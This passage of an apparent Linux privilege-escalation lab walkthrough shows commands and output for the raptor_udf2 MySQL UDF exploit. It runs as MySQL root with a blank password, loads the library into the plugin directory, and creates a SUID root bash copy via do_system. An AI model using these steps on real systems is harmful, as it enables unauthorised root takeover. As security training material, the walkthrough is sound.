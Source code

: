     ```bash
    user@debian:~/tools/mysql-udf$ gcc -g -c raptor_udf2.c -fPIC
    user@debian:~/tools/mysql-udf$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o raptor_udf2.so raptor_udf2.o -lc
    ```

- Connect to the MySQL service as the root user with a blank password:

    ```bash
    user@debian:~/tools/mysql-udf$ mysql -u root
    Welcome to the MySQL monitor.  Commands end with ; or \g.
    Your MySQL connection id is 35
    Server version: 5.1.73-1+deb6u1 (Debian)

    Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.

    Oracle is a registered trademark of Oracle Corporation and/or its
    affiliates. Other names may be trademarks of their respective
    owners.

    Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

    mysql>
    ```

- Execute the following commands on the MySQL shell to create a User Defined Function (UDF) "do_system" using our compiled exploit:

    ```bash
    mysql> use mysql;
    Reading table information for completion of table and column names
    You can turn off this feature to get a quicker startup with -A

    Database changed
    mysql> create table foo(line blob);
    Query OK, 0 rows affected (0.01 sec)

    mysql> insert into foo values(load_file('/home/user/tools/mysql-udf/raptor_udf2.so'));
    Query OK, 1 row affected (0.00 sec)

    mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
    Query OK, 1 row affected (0.00 sec)

    mysql> create function do_system returns integer soname 'raptor_udf2.so';
    Query OK, 0 rows affected (0.00 sec)
    ```

- Use the function to copy /bin/bash to /tmp/rootbash and set the SUID permission:

    ```bash
    mysql> select do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash');
    +------------------------------------------------------------------+
    | do_system('cp /bin/bash /tmp/rootbash; chmod +xs /tmp/rootbash') |
    +------------------------------------------------------------------+
    |                                                                0 |
    +------------------------------------------------------------------+
    1 row in set (0.01 sec)
    ```
